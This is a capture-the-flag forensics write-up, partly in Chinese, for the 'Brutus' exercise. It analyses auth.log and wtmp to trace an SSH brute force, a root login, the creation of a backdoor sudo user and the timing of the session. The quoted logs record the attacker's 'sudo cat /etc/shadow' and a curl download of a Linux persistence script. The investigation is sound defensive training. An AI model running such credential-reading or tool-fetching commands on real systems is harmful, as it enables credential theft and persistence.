


# Brutus

## Sherlock Scenario

In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.

测试


***

## Task 1

Analyzing the auth.log, can you identify the IP address used by the attacker to carry out a brute force attack?

***

查看登录失败日志，很明显只有一个 IP 在连续登录失败：

```
└─# grep "Failed password" auth.log
Mar  6 06:31:33 ip-172-31-35-28 sshd[2327]: Failed password for invalid user admin from 65.2.161.68 port 46392 ssh2
Mar  6 06:31:33 ip-172-31-35-28 sshd[2331]: Failed password for invalid user admin from 65.2.161.68 port 46436 ssh2
Mar  6 06:31:33 ip-172-31-35-28 sshd[2332]: Failed password for invalid user admin from 65.2.161.68 port 46444 ssh2
Mar  6 06:31:33 ip-172-31-35-28 sshd[2335]: Failed password for invalid user admin from 65.2.161.68 port 46460 ssh2
Mar  6 06:31:33 ip-172-31-35-28 sshd[2337]: Failed password for invalid user admin from 65.2.161.68 port 46498 ssh2
Mar  6 06:31:33 ip-172-31-35-28 sshd[2334]: Failed password for invalid user admin from 65.2.161.68 port 46454 ssh2
Mar  6 06:31:33 ip-172-31-35-28 sshd[2338]: Failed password for backup from 65.2.161.68 port 46512 ssh2
Mar  6 06:31:33 ip-172-31-35-28 sshd[2336]: Failed password for backup from 65.2.161.68 port 46468 ssh2
Mar  6 06:31:33 ip-172-31-35-28 sshd[2330]: Failed password for invalid user admin from 65.2.161.68 port 46422 ssh2
Mar  6 06:31:33 ip-172-31-35-28 sshd[2328]: Failed password for invalid user admin from 65.2.161.68 port 46390 ssh2
Mar  6 06:31:33 ip-172-31-35-28 sshd[2329]: Failed password for invalid user admin from 65.2.161.68 port 46414 ssh2
Mar  6 06:31:33 ip-172-31-35-28 sshd[2333]: Failed password for invalid user admin from 65.2.161.68 port 46452 ssh2
Mar  6 06:31:34 ip-172-31-35-28 sshd[2352]: Failed password for backup from 65.2.161.68 port 46568 ssh2
Mar  6 06:31:34 ip-172-31-35-28 sshd[2351]: Failed password for backup from 65.2.161.68 port 46538 ssh2
Mar  6 06:31:34 ip-172-31-35-28 sshd[2355]: Failed password for backup from 65.2.161.68 port 46576 ssh2
Mar  6 06:31:34 ip-172-31-35-28 sshd[2357]: Failed password for backup from 65.2.161.68 port 46582 ssh2
Mar  6 06:31:36 ip-172-31-35-28 sshd[2357]: Failed password for backup from 65.2.161.68 port 46582 ssh2
Mar  6 06:31:37 ip-172-31-35-28 sshd[2359]: Failed password for invalid user server_adm from 65.2.161.68 port 46596 ssh2
Mar  6 06:31:37 ip-172-31-35-28 sshd[2361]: Failed password for invalid user server_adm from 65.2.161.68 port 46614 ssh2
Mar  6 06:31:37 ip-172-31-35-28 sshd[2368]: Failed password for invalid user server_adm from 65.2.161.68 port 46676 ssh2
Mar  6 06:31:37 ip-172-31-35-28 sshd[2369]: Failed password for invalid user server_adm from 65.2.161.68 port 46682 ssh2
Mar  6 06:31:37 ip-172-31-35-28 sshd[2365]: Failed password for invalid user server_adm from 65.2.161.68 port 46644 ssh2
Mar  6 06:31:37 ip-172-31-35-28 sshd[2366]: Failed password for invalid user server_adm from 65.2.161.68 port 46648 ssh2
Mar  6 06:31:37 ip-172-31-35-28 sshd[2364]: Failed password for invalid user server_adm from 65.2.161.68 port 46632 ssh2
Mar  6 06:31:37 ip-172-31-35-28 sshd[2367]: Failed password for invalid user server_adm from 65.2.161.68 port 46664 ssh2
Mar  6 06:31:37 ip-172-31-35-28 sshd[2363]: Failed password for invalid user server_adm from 65.2.161.68 port 46620 ssh2
Mar  6 06:31:37 ip-172-31-35-28 sshd[2377]: Failed password for invalid user server_adm from 65.2.161.68 port 46684 ssh2
Mar  6 06:31:38 ip-172-31-35-28 sshd[2379]: Failed password for invalid user server_adm from 65.2.161.68 port 46698 ssh2
Mar  6 06:31:38 ip-172-31-35-28 sshd[2380]: Failed password for invalid user server_adm from 65.2.161.68 port 46710 ssh2
Mar  6 06:31:38 ip-172-31-35-28 sshd[2383]: Failed password for invalid user svc_account from 65.2.161.68 port 46722 ssh2
Mar  6 06:31:38 ip-172-31-35-28 sshd[2384]: Failed password for invalid user svc_account from 65.2.161.68 port 46732 ssh2
Mar  6 06:31:38 ip-172-31-35-28 sshd[2387]: Failed password for invalid user svc_account from 65.2.161.68 port 46742 ssh2
Mar  6 06:31:38 ip-172-31-35-28 sshd[2389]: Failed password for invalid user svc_account from 65.2.161.68 port 46744 ssh2
Mar  6 06:31:39 ip-172-31-35-28 sshd[2391]: Failed password for invalid user svc_account from 65.2.161.68 port 46750 ssh2
Mar  6 06:31:39 ip-172-31-35-28 sshd[2393]: Failed password for invalid user svc_account from 65.2.161.68 port 46774 ssh2
Mar  6 06:31:39 ip-172-31-35-28 sshd[2394]: Failed password for invalid user svc_account from 65.2.161.68 port 46786 ssh2
Mar  6 06:31:39 ip-172-31-35-28 sshd[2397]: Failed password for invalid user svc_account from 65.2.161.68 port 46814 ssh2
Mar  6 06:31:39 ip-172-31-35-28 sshd[2398]: Failed password for invalid user svc_account from 65.2.161.68 port 46840 ssh2
Mar  6 06:31:39 ip-172-31-35-28 sshd[2396]: Failed password for invalid user svc_account from 65.2.161.68 port 46800 ssh2
Mar  6 06:31:39 ip-172-31-35-28 sshd[2400]: Failed password for invalid user svc_account from 65.2.161.68 port 46854 ssh2
Mar  6 06:31:39 ip-172-31-35-28 sshd[2399]: Failed password for root from 65.2.161.68 port 46852 ssh2
Mar  6 06:31:39 ip-172-31-35-28 sshd[2407]: Failed password for root from 65.2.161.68 port 46876 ssh2
Mar  6 06:31:39 ip-172-31-35-28 sshd[2409]: Failed password for root from 65.2.161.68 port 46890 ssh2
Mar  6 06:31:41 ip-172-31-35-28 sshd[2399]: Failed password for root from 65.2.161.68 port 46852 ssh2
Mar  6 06:31:41 ip-172-31-35-28 sshd[2407]: Failed password for root from 65.2.161.68 port 46876 ssh2
Mar  6 06:31:41 ip-172-31-35-28 sshd[2409]: Failed password for root from 65.2.161.68 port 46890 ssh2
Mar  6 06:31:42 ip-172-31-35-28 sshd[2423]: Failed password for backup from 65.2.161.68 port 34834 ssh2
Mar  6 06:31:42 ip-172-31-35-28 sshd[2424]: Failed password for backup from 65.2.161.68 port 34856 ssh2
```

`65.2.161.68`

## Task 2

The brute force attempts were successful, and the attacker gained access to an account on the server. What is the username of this account?

***

查看登录成功事件，root 和 cyberjunkie 两个用户都登录成功了：

```
└─# grep "password" auth.log | grep -v Failed | grep -v Invalid
Mar  6 06:19:54 ip-172-31-35-28 sshd[1465]: Accepted password for root from 203.101.190.9 port 42825 ssh2
Mar  6 06:31:40 ip-172-31-35-28 sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: Accepted password for root from 65.2.161.68 port 53184 ssh2
Mar  6 06:34:26 ip-172-31-35-28 passwd[2603]: pam_unix(passwd:chauthtok): password changed for cyberjunkie
Mar  6 06:37:34 ip-172-31-35-28 sshd[2667]: Accepted password for cyberjunkie from 65.2.161.68 port 43260 ssh2
```

cyberjunkie 用户为后面修改的密码（password changed for cyberjunkie），所以只有 root 用户是爆破出来的。

## Task 3

Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?

***

```
└─# utmpdump ./wtmp | grep 65.2.161.68
Utmp dump of ./wtmp
[7] [02549] [ts/1] [root    ] [pts/1       ] [65.2.161.68         ] [65.2.161.68    ] [2024-03-06T06:32:45,387923+00:00]
[7] [02667] [ts/1] [cyberjunkie] [pts/1       ] [65.2.161.68         ] [65.2.161.68    ] [2024-03-06T06:37:35,475575+00:00]
```

`2024-03-06 06:32:45`

## Task 4

SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

***



`37`

## Task 5

The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

***

无论是从 auth.log 还是 wtmp 中都能清晰的看到攻击者创建并登录了 cyberjunkie 账户：

```
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/gshadow: name=cyberjunkie
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: new group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1
Mar  6 06:34:26 ip-172-31-35-28 passwd[2603]: pam_unix(passwd:chauthtok): password changed for cyberjunkie
Mar  6 06:34:31 ip-172-31-35-28 chfn[2605]: changed user 'cyberjunkie' information
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to group 'sudo'
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to shadow group 'sudo'
```

```
└─# utmpdump ./wtmp | grep 65.2.161.68
Utmp dump of ./wtmp
[7] [02549] [ts/1] [root    ] [pts/1       ] [65.2.161.68         ] [65.2.161.68    ] [2024-03-06T06:32:45,387923+00:00]
[7] [02667] [ts/1] [cyberjunkie] [pts/1       ] [65.2.161.68         ] [65.2.161.68    ] [2024-03-06T06:37:35,475575+00:00]
```

`cyberjunkie`

## Task 6

What is the MITRE ATT\&CK sub-technique ID used for persistence?

***

https://attack.mitre.org/techniques/T1136/001/



`T1136.001`

## Task 7

How long did the attacker's first SSH session last based on the previously confirmed authentication time and session ending within the auth.log? (seconds)

***

日志时间记录段为 06:32:44 - 06:37:24，共 280 秒：

```
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: Accepted password for root from 65.2.161.68 port 53184 ssh2
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
...

Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: Received disconnect from 65.2.161.68 port 53184:11: disconnected by user
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: Disconnected from user root 65.2.161.68 port 53184
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session closed for user root
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Session 37 logged out. Waiting for processes to exit.
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Removed session 37.
```

wtmp 显示会话在 06:32:45 开启，即会话开始到结束时间段为 06:32:45 - 06:37:24，共 279 秒：

```
[7] [02549] [ts/1] [root    ] [pts/1       ] [65.2.161.68         ] [65.2.161.68    ] [2024-03-06T06:32:45,387923+00:00]
```

`279`

## Task 8

The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

***

auth.log 文件中记录了后门账户 cyberjunkie 的操作：

```
└─# grep "cyberjunkie" auth.log
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/gshadow: name=cyberjunkie
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: new group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1
Mar  6 06:34:26 ip-172-31-35-28 passwd[2603]: pam_unix(passwd:chauthtok): password changed for cyberjunkie
Mar  6 06:34:31 ip-172-31-35-28 chfn[2605]: changed user 'cyberjunkie' information
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to group 'sudo'
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to shadow group 'sudo'
Mar  6 06:37:34 ip-172-31-35-28 sshd[2667]: Accepted password for cyberjunkie from 65.2.161.68 port 43260 ssh2
Mar  6 06:37:34 ip-172-31-35-28 sshd[2667]: pam_unix(sshd:session): session opened for user cyberjunkie(uid=1002) by (uid=0)
Mar  6 06:37:34 ip-172-31-35-28 systemd-logind[411]: New session 49 of user cyberjunkie.
Mar  6 06:37:34 ip-172-31-35-28 systemd: pam_unix(systemd-user:session): session opened for user cyberjunkie(uid=1002) by (uid=0)
Mar  6 06:37:57 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/cat /etc/shadow
Mar  6 06:37:57 ip-172-31-35-28 sudo: pam_unix(sudo:session): session opened for user root(uid=0) by cyberjunkie(uid=1002)
Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
Mar  6 06:39:38 ip-172-31-35-28 sudo: pam_unix(sudo:session): session opened for user root(uid=0) by cyberjunkie(uid=1002)
```

`/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`
